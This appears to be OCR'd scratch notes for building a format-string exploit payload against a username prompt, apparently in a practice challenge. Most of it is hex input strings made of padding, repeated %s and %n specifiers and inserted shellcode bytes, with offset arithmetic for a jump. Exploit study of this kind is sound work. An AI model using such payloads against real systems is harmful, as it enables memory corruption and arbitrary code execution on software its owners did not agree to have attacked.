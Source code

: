 '80ff ' * 72 + '0a42 ' + '2573 ' * 72 + '256e' = 0x2402
80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 0a42 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 256e
len: 292
# We will ignore the spam data and will use at prefix for the shellcode
# Add shellcode: 3012 7f00 b012 3645
80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 0a42 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 256e 3012 7f00 b012 3645
# + Insert SP and %s %n
80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 0a42 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 256e

80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 da44 0a42 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 256e
Enter your username below to authenticate. -> Len=0x2b (43)
0x44d8 - 0x447a = 0x5e

# TODO: write to code section, jmp with offset of 0x5e for ret "2e3c           jmp	$+0x5e"
hex(2 + 128*120 + 44)
ccff -> the same string but only the last 44 bytes
'80ff ' * 120 + 'ccff ' + '0a42 '+ '2573 ' * 121 + '256e'
